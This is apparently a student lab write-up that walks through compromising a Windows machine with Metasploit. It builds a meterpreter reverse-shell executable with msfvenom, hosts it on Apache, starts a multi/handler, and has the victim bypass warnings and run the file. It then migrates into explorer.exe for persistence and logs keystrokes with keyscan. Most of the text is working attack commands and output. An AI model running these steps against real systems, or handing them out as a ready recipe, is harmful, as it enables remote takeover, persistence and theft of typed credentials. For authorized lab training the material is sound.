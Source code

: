 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/9f114080-577e-4c4d-89a5-c8e1aee90f9b)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![image](https://github.com/user-attachments/assets/a0433240-4454-4e40-9bea-151b21c11e14)


copy the fun.exe into the apache /var/www/html folder


![image](https://github.com/user-attachments/assets/4568276e-b714-4120-8f87-bc8a8e5af006)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/2bec5ee3-c7da-46dd-850d-78b9b1a2b5f8)



Check the status of apache2

![image](https://github.com/user-attachments/assets/ec9a2d75-8aa7-4d07-9398-cfc1d257eb33)


Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/user-attachments/assets/95bcd6da-385e-433e-a4f5-e35cdd9101fc)


Starting a command and control Server
use multi/handler
![image](https://github.com/user-attachments/assets/f0ff5564-496c-450a-8808-2db975e874a4)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![6 7](https://github.com/user-attachments/assets/76927041-303e-4d38-a66e-8bd6e89d6563)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/user-attachments/assets/049996e8-1ca7-41cb-a270-e2df3b357376)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/07d9f86d-ca95-427a-b005-9e6969354176)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
![6 10](https://github.com/user-attachments/assets/66442dd7-aedd-4c09-8d4c-4100ae0ac911)

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/f5776fc3-80cb-4ae1-8ba0-f8bf1cd4771a)
![6 14](https://github.com/user-attachments/assets/781f8912-c6e5-4a38-9f49-da7c39338628)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/1ca75d17-301e-4c88-9082-6bfcfab05318)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
